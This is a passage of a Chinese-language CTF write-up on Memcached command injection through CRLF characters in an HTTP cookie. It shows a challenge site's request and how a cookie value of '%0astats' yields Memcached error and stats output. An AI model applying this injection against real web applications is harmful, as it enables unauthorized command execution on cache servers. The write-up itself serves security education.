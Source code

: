 可以看到,对Memcached的协议来讲,rn是可以用来分割命令的,所以说,我们能直接通过CLRF注入,将rn注入到将要传入Memcached的元素中(例如cookies),实现命令执行。

<br>

**0x04 Memcache Injection实例**

最近的一次ctf中,有一个典型的基于CLRF的Memcache注入。(目前该站可以访问)

[http://login2.chal.mmactf.link/login](http://login2.chal.mmactf.link/login)

login as admin

登录之后的请求是这样的

```
GET / HTTP/1.1
Host: login2.chal.mmactf.link
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:38.0) Gecko/   20100101 Firefox/38.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://login2.chal.mmactf.link/login
Cookie: ss=c4a613cdf3378b458be9a6d8de6c52c6ab260d1ee5c2d94df6fe260e580b16bb
Connection: keep-alive
```

在测试http头注入的时候,我们发现将%0a注入到cookies中时,也就是请求:

Cookie: ss=%0ac4a613cdf3378b458be9a6d8de6c52c6ab260d1ee5c2d94df6fe260e580b16bb

返回如下

```
&lt;/div&gt;
&lt;div id="info"&gt;
&lt;p&gt;MemcacheError:ERROR  
ERROR&lt;/p&gt;
&lt;/div&gt;
&lt;/body&gt;
&lt;/html&gt;
```

恩,memcached出错了,那不就是刚刚提到的error吗?

&gt; 1234567890

&lt; ERROR

说明这里ss的value代入了memcached。

我们继续在cookies里面注入:ss=%0astats

```
MemcacheError:ERROR
STAT pid 988
STAT uptime 651664
STAT time 1442726665
STAT version 1.4.14 (Ubuntu)
STAT libevent 2.0.21-stable
STAT pointer_size 64
STAT rusage_user 17.256000
STAT rusage_system 18.232000
STAT curr_connections 5
STAT total_connections 946
STAT connection_structures 6
STAT reserved_fds 20
STAT cmd_get 615
STAT cmd_set 188
STAT cmd_flush 0
STAT cmd_touch 0
STAT get_hits 299
STAT get_misses 316
```